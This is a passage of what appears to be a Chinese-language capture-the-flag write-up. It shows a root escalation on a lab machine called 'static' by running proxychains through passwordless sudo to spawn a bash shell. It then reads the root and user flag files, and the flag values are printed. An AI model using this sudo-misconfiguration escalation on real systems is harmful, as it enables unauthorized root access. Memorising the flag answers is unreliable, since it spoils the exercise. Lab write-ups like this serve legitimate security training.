 发现可以无密码执行 proxychains，直接利用获取 root：

```bash
proxy@static:/usr/bin$ sudo /usr/bin/proxychains bash
ProxyChains-3.1 (http://proxychains.sf.net)
root@static:/usr/bin# id
uid=0(root) gid=0(root) grupos=0(root)
root@static:/usr/bin# cat /root/root.txt /home/proxy/user.txt 
1ec3b7ffaf9b33e1d09fc1c7046f25b4
fde48ab5f20e345e99d05f73bb929bf4
```

成功获得 root 权限和 flag。